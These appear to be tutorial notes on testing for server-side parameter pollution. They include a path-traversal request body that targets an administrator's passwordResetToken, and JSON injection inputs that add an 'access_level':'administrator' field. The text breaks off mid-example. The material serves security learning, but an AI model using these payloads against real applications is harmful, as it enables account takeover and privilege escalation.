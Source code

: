 ```bash
csrf=NpAyxU8sqRJrZ5KvnR0WzVLBYTnV3Kt8&username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```

# Testing for server-side parameter pollution in structured data formats

Consider an app that enables you to edit a profile and apply changes with a request to server-side API. When editing the name, the browser makes a request:

```html
POST /myaccount
name=peter
```

Resulting in:

```json
PATCH /user/7312/update
{"name":"peter"}
```

If you attempt to add the "access_level" parameter to the request as follows, and user input is added to the server-side JSON data without validation or sanitization, it can result in the following:

```html
POST /myaccount
name=peter","access_level":"administrator
```

```json
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```

A similiar example may be where the client-side user input is in JSON data. When editing the name, it makes:

```html
POST /myaccount
{"name": "peter"}
```

Resulting in:

```bash
PATCH /users/7312/update
{"name":"peter"}
```

Attempting to add the access_level parameter to the request results in:

```bash
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

If the user input is decoded, then added to the server-side JSON data without adequate encoding, it results in:
